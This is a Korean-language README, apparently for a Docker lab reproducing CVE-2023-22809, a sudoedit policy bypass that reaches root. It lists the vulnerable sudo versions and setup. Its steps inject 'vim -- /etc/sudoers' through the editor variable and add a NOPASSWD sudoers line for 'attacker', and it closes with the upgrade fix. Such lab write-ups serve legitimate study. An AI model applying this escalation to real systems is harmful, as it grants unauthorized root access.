






# CVE-2023-22809

contributor **(@gyulin719)**
<br>
<br>

#### 취약점
---
sudoedit 권한이 있는 로컬 사용자가

SUDO_EDITOR, VISUAL, EDITOR에 추가 --와 파일 경로를 삽입하여 

권한 밖의 파일을 RunAs 사용자 권한으로 편집하는 정책 우회 취약점이다.

<br>

#### 환경 구성
---
OS : Ubuntu 22.04 LTS

sudo : 1.9.12p1

editor : vim

Docker Container

<br>

#### 취약 조건
---
sudo 버전 1.8.0 ~ 1.9.12p1

로컬 사용자가 sudoedit을 사용할 수 있어야 한다.  

SUDO_EDITOR 또는 EDITOR 환경변수 제어가 가능해야 한다.

vim, nano 등 에디터 역시 필요하다.

<br>

#### 재현 절차
---
**1. Docker 환경 구축**
```bash
docker compose up --build -d
docker exec -it cve-2023-22809-lab bash
```

<br>

**2. 환경, 권한 확인**
```bash
whoami
sudo -l
```
<br>

**3. exploit**
```bash
bash ./poc.sh
```
vim으로 sudoers에 다음 줄을 추가한다.
```bash
attacker ALL=(ALL:ALL) NOPASSWD: ALL
```
변경사항을 저장하고 docker 컨테이너 터미널로 나온다. 

<br>

**4. 변경사항 확인**
```bash
whoami
sudo -l
```
whoami로 사용자가 attacker에서 root로 바뀐 것을 확인할 수 있다. 

<br>

#### PoC 코드
---


<br>

#### 실행 결과
---

 << 바꿔야 해...
먼저 docker compose 명령어로 컨테이너를 빌드하고 터미널에 접속한다.  



그 다음 터미널에서 whoami 명령어로 사용자가 attacker임을 확인하고 

sudoers에는 접근할 수 없음을 확인한다. 

<br>



poc.sh를 실행하면 SUDO_EDIT='vim -- /etc/sudoers' 이 실행되면서 sudoers 파일이 vim으로 열린다.
<br>



위와 같은 sudoers 파일에 attacker의 권한을 수정하는 줄을 추가한다. 
<br>


<br>

수정한 sudoers를 저장하고 터미널로 돌아와 권한을 확인해 볼 수 있다. 


<br>

poc.sh의 su - ~~ 가 실행되어 attacker가 root로 변경되었고

정상적인 명령으로도 sudoers에 접근할 수 있게 되었다. 

#### 대응 방안
---
근본적으로는 sudo를 1.9.13 이상으로 업그레이드해야 한다. 

